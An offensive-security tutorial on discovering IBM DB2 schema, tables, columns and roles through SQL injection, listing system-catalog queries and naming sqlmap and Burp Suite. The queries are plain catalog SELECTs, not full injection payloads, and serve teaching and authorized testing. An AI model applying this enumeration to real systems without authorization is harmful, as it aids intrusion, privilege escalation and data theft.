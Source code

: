 ```yaml
---
title: Uncover IBM DB2 Schema & Metadata via SQL Injection
description: Learn to discover IBM DB2 schema and metadata using SQL Injection techniques,
  focusing on system catalogs for database insights.
keywords:
- IBM DB2
- SQL Injection
- schema discovery
- metadata
- system catalogs
- database enumeration
- privilege escalation
- DB2 SYSTABLES
- DB2 SYSCOLUMNS
- role discovery
---
```


# Schema and Metadata Discovery

## Context

In offensive cybersecurity, understanding the structure and data stored in a database can be as critical as gaining access itself. This article focuses on leveraging SQL Injection to discover schema and metadata within IBM DB2 databases. We assume you have a foundational understanding of database schematics, metadata, and are familiar with DB2 enumeration techniques.

## Theory

### DB2 System Catalogs and Views

DB2 databases store a wealth of system metadata across various system catalogs. These catalogs are indispensable for database administrators, and equally so for anyone attempting to uncover the inner workings of a database through offensive security testing.

- **System Catalogs**: These are tables that contain metadata regarding the structure of the database. They provide significant insights including definitions of tables, views, columns, and more.
- **SYSIBM.SYSTABLES** & **SYSIBM.TABLES**: Contain information about all tables in the database, including table names and creators. (Note: Table and column names may differ slightly between DB2 versions.)
- **SYSCAT.SCHEMATA**: Provides a list of all schemas defined within the database, offering a high-level overview of the data organization.
- **SYSIBM.SYSCOLUMNS**: Details the columns of each table, including data types and column names, essential for understanding the structure of data within tables.

> **Tip:** You can tailor queries to select only specific columns (e.g., `SELECT name, tbname FROM SYSIBM.SYSCOLUMNS;`) instead of using `*` to reduce noise and focus on relevant data.

### Schema and Metadata Discovery Techniques

Leveraging SQL Injection, you can query these catalogs to extract crucial database schema details:

- **Extract Information through SQL Injection**: By injecting crafted SQL queries, it's possible to retrieve schema information from these system catalogs.
- **Table and Column Details Extraction**: Accessing SYSIBM and SYSCAT views enables an intruder to map out table structures, column names, and data types.
- **Roles and Privileges Identification**: By querying system catalogs such as SYSCAT.DBAUTH and SYSCAT.ROLES, you can discover the roles and privileges that might be leveraged for privilege escalation.

## Practice

### Quick Reference Table

| Goal                        | Example Query                                                      |
|-----------------------------|--------------------------------------------------------------------|
| List databases/catalogs     | `SELECT DISTINCT(TABLE_CATALOG) FROM SYSIBM.TABLES;`               |
| List schemas                | `SELECT SCHEMANAME FROM SYSCAT.SCHEMATA;`                          |
| List all columns            | `SELECT name, tbname, coltype FROM SYSIBM.SYSCOLUMNS;`             |
| List all tables             | `SELECT table_name FROM SYSIBM.TABLES;`                            |
| List all tables (alt)       | `SELECT name FROM SYSIBM.SYSTABLES;`                               |
| Find tables by column name  | `SELECT tbname FROM SYSIBM.SYSCOLUMNS WHERE name='username';`      |

### Listing Databases / Catalogs

To enumerate the available databases or catalogs in IBM DB2, use:

```sql
SELECT DISTINCT(TABLE_CATALOG) FROM SYSIBM.TABLES;
```
*Outcome*: Returns the names of available databases (catalogs).

### Listing Schemas

To enumerate schemas in the database:

```sql
SELECT SCHEMANAME FROM SYSCAT.SCHEMATA;
```
*Outcome*: Returns a list of schema names, providing a high-level overview of the database's organization.

### Listing All Tables

To list all tables in the database, you can use either of the following queries (depending on DB2 version/environment):

```sql
SELECT table_name FROM SYSIBM.TABLES;
```

```sql
SELECT name FROM SYSIBM.SYSTABLES;
```
*Outcome*: Returns the names of all tables in the database.

To list tables within a specific schema:

```sql
SELECT * FROM SYSIBM.SYSTABLES WHERE CREATOR = 'SCHEMA_NAME';
```
*Outcome*: Returns all tables under the defined schema, with additional metadata.

### Listing All Columns

To enumerate all columns in the database, including their table and data type:

```sql
SELECT name, tbname, coltype FROM SYSIBM.SYSCOLUMNS;
```
*Outcome*: Returns all column names, their parent table, and data type.

To list columns for a specific table:

```sql
SELECT * FROM SYSIBM.SYSCOLUMNS WHERE TBNAME = 'TABLE_NAME';
```
*Outcome*: Returns all columns and their details for the specified table.

### Finding Tables by Column Name

To find all tables that contain a specific column (e.g., 'username'):

```sql
SELECT tbname FROM SYSIBM.SYSCOLUMNS WHERE name='username';
```
*Outcome*: Returns the names of tables that have a column named 'username'.

### Enumerating Schemas (Full Details)

To get detailed information about all schemas:

```sql
SELECT * FROM SYSCAT.SCHEMATA;
```
*Outcome*: Returns detailed schema metadata.

## Tools

- **sqlmap**
- **Burp Suite**